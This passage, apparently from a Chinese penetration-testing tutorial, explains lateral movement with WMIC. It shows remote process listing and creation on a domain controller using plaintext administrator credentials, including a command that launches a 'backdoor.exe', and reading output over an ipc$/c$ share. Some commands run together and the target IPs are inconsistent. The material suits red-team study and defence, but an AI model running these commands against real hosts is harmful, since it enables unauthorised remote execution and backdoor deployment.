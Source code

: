 ### 查询远程进程信息

```


```
wmic /node:192.168.183.130 /user:administrator /password:Liu78963 process list brief
```




```

![](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)

### 远程创建进程

如下，以administrator用户连接192.168.183.130(DC)，并在机器上创建一个进程执行ipconfig命令，将结果写入C:\result.txt文本文件中：（由于wmic执行远程命令没有回显，所以要将结果写入到txt中）

```


```
`wmic /node:192.168.183.130 /user:administrator /password:Liu78963 process call create "cmd.exe /c ipconfig > C:\result.txt"wmic /node:192.168.183.130 /user:administrator /password:Liu78963 process call create "cmd.exe /c <命令> > C:\result.txt"wmic /node:192.168.183.130 /user:administrator /password:Liu78963 process call create "目录\backdoor.exe"``// /node：指定将对其进行操作的服务器`
```




```

![](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)

这里如果我预先与目标主机建立了ipc$连接，所以就不需要在wmic指定/user和/password了。

然后，由于wmic执行远程命令没有回显，所以在建立ipc$连接后，使用type命令远程读取192.168.52.138上的执行结果：

```


```
type \\192.168.52.138\c$\result.txt
```




```

![](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)
